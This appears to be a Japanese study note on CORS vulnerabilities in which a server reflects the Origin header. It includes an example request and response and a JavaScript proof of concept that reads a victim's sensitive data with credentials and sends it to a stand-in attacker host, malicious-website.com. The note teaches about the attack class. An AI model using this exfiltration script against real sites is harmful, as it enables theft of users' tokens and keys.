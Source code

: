 ## 前提知識
### クロスオリジンリソース共有とは？
- 特定のドメインのリソースにアクセスさせるための機能。
- 同一ドメインポリシーの拡張機能的役割。

## 攻撃概要の説明
### 1. **クライアントが指定したOriginヘッダーからサーバが生成したACAOヘッダー**
- リクエストからOriginヘッダーを読取り、レスポンスが許可されていることを示すレスポンスヘッダーを含める。
	↓リクエスト
	```
	GET /sensitive-victim-data HTTP/1.1
	Host: vulnerable-website.com
	Origin: https://malicious-website.com
	Cookie: sessionid=...
	```
	↓レスポンス
	```
	HTTP/1.1 200 OK
	Access-Control-Allow-Origin: https://malicious-website.com // ←アクセスが許可されたことを示す。
	Access-Control-Allow-Credentials: true // ←クッキーを含めることを許可している。
	...
	```

- 以下のスクリプトをWebサイトに配置することで、レスポンスに含まれるAPIキーだったり、CSRFトークンだったりが盗める。
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

---
## 攻撃の説明
### 基本的なオリジンリフレクションによるCORSの脆弱性
